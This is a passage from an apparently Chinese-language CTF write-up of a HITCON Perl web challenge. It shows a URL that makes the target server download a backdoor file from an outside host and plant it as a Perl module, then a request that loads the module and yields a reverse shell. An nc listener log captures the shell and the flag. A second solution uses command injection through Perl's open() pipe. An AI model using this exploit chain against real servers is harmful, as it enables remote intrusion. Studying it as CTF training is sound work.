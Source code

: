 ```perl
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

然后，将其部署到服务器上（反弹ip改为我们服务器的ip）。

```Html
http://10.211.55.17/index.php?filename=URI/moxiaoxi.pm&url=http://xx.xx.xx.x/backdoor.txt
```

```
└── sandbox
    └── 1924cf16182a5279a02c5ffb573daaa4
        └── URI
            └── moxiaoxi.pm

```

这样就在网站上新建了一个URI目录，目录下有moxiaoxi.pm文件，文件内容为我们的backdoor。

在服务器上监听端口，再访问`10.211.55.17/index.php?filename=xxx&url=moxiaoxi://momomoxiaoxi.com`就能获得一个反弹shell。这里访问`moxiaoxi://momomoxiaoxi.com`时，moxiaoxi是未定义模块，所以会自动搜索并加载URI中的moxiaoxi.pm 模块。

```bash
 ➜  html nc -w 1 -k -lvv 1235
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 13.115.136.15.
Ncat: Connection from 13.115.136.15:39746.
 03:10:35 up 2 days,  9:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux ip-172-31-28-110 4.4.0-1039-aws #48-Ubuntu SMP Wed Oct 11 15:15:01 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
$ ./readflag
hitcon{Perl_<3_y0u}

```

### 其他解法

参考ricterz的博客，其知识点是，另外一个命令注入，是perl的feature，在open下可以执行命令。

```bash
➜  test cat test.pl
open(FD, "whoami|");
print <FD>;
➜  test perl test.pl
moxiaoxi
➜  test
```

